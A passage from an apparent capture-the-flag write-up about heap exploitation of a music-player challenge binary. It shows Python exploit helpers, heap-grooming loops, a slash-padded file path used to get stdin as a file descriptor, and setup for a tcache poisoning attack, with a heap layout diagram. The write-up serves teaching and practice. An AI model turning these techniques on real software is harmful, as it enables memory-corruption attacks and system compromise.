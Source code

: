 ```python
	sh.sendline(length)
	if len(content) > 0x450: #Check needed due to weird read() buffering over a network.
		print "Error your payload's too long. It is " + str(len(content)) + " bytes."
		exit()
	sh.sendline(content)
	sh.recvuntil("like to do today?")

def delete(id, getsh=0):
	sh.sendlineafter("Choice: ","4")
	sh.sendline(id)
	if getsh == 0:
		sh.recvuntil("like to do today?")

for i in range(0, 11): #ids 1-11 are rainbow-godzilla (767 bytes)
        imp("Rainbow/godzilla.txt")

for i in range(0, 11): #ids 12-22 is a directory (1 bytes)
        imp("Warrior")

for i in range(0, 11): #ids 23-33 is animal-animal (946 bytes)
        imp("Animal/animal.txt")

for i in range(0, 10): #ids 34-43 is Warrior-pastlive (829 bytes)
        imp("Warrior/pastlive.txt")
        
badfile = "Warrior" + "/"*(0x18-len("Warrior"))
imp(badfile) #Number 44 now has stdin as file descriptor
```

We'll first play songs 12, 13, and 2 (all 0x20 byte allocations), import two more directories as songs, and play them both (both 0x20 byte allocations), and then play song 23 (946 -> 0x3c0 byte allocation):

```python=
play("12")
play("13")
play("2") #Reserving song #1 for later use


imp("Warrior") #These will be used in the final tcache poison
imp("Warrior")
play("45")
play("46")

play("23")
```

Our heap layout looks like this:

```
------------------
|                | <-12
------------------
|                | <-13
------------------
|                | <-2
|                |
|                |
|                |
|                |
------------------
|                | <- 45
------------------ 
|                | <- 46
------------------
```